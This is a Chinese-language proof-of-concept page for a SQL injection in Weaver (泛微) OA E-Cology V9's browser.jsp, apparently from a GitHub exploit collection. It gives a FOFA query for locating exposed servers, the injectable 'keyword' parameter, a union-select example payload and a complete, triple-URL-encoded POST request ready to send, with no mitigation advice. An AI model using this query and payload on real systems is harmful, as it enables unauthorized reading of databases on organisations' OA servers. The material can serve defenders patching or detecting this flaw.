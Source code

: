 # 泛微OA E-Cology V9 browser.jsp SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同商务系统"`  
![](./img/E-CologyV9_sql.png)
## POC
漏洞位置：  
POS请求:/mobile/%20/plugin/browser.jsp ，参数：keyword ，exp需要三次url编码，MSSQL数据库  
例poc：a' union select 1,''+(SELECT @@VERSION)+'  
```
POST /mobile/%20/plugin/browser.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close
Content-Length: 649

isDis=1&browserTypeId=269&keyword=%2525%2536%2531%2525%2532%2537%2525%2532%2530%2525%2537%2535%2525%2536%2565%2525%2536%2539%2525%2536%2566%2525%2536%2565%2525%2532%2530%2525%2537%2533%2525%2536%2535%2525%2536%2563%2525%2536%2535%2525%2536%2533%2525%2537%2534%2525%2532%2530%2525%2533%2531%2525%2532%2563%2525%2532%2537%2525%2532%2537%2525%2532%2562%2525%2532%2538%2525%2535%2533%2525%2534%2535%2525%2534%2563%2525%2534%2535%2525%2534%2533%2525%2535%2534%2525%2532%2530%2525%2534%2530%2525%2534%2530%2525%2535%2536%2525%2534%2535%2525%2535%2532%2525%2535%2533%2525%2534%2539%2525%2534%2566%2525%2534%2565%2525%2532%2539%2525%2532%2562%2525%2532%2537
```
![](./img/E-CologyV9_sql_poc.png)
## URL三次编码脚本
可使用[python脚本](file/urlEncode3.py)进行三次url编码，命令：`python3 urlEncode3.py`